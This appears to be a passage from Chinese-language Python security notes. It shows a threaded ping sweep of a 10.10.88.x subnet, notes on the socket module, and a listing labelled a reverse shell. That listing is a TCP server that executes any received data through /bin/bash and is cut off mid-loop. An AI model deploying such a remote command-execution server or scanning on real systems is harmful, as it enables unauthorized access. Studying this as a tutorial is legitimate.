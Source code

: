 ```
            check_ping = Popen(['/bin/bash', '-c', 'ping -c 2 ' + ip], stdin=PIPE, stdout=PIPE)
            data = check_ping.stdout.read()
            if 'ttl' in data:
                sys.stdout.write(ip + ' is UP\n')

def main():
    threads = []
    threads_count = 10
    queue = Queue.Queue()

    for i in range(1, 255):
        queue.put('10.10.88.' + str(i))

    for i in range(threads_count):
        threads.append(DoRun(queue))

    for i in threads:
        i.start()

    for i in threads:
        i.join()

if __name__ == '__main__':
    main()
```

### 网络编程
python 支持 AF_UNIX, AF_NETLINK, AF_INET 桃姐子

- socket模块
    - `socket(socket_family, socket_type, protocol=0)`
    - `tcpsocket = socket(socket.AF_INET, socket.SOCK_STREAM)`
    - `s.bind(), s.listen(), s.connect(), s.connect_ex()`
    - `s.recv(), s.send(), s.recvfrom(), s.sendto(), s.getpeername(), s.getsockopt(), s.setsockopt(), s.close()` 方法名字长的对应于UDP套接字(recvfrom, sendto)

- server.py 反弹shell

``` python
# -*- coding: utf-8 -*-

from socket import *
from time import ctime
from subprocess import Popen, PIPE

HOST = ''
PORT = 2333
BUFSIZE = 1024

tcpServer = socket(AF_INET, SOCK_STREAM)
tcpServer.bind((HOST, PORT))
tcpServer.listen(5)

while True:
    print 'waiting for connection...'
    tcpClient, addr = tcpServer.accept()
    print '... connected from: ', addr

    while True:
        data = tcpClient.recv(BUFSIZE)
        if not data:
            break
        cmd = Popen(['/bin/bash', '-c', data], stdin=PIPE, stdout=PIPE)
        data = cmd.stdout.read()
```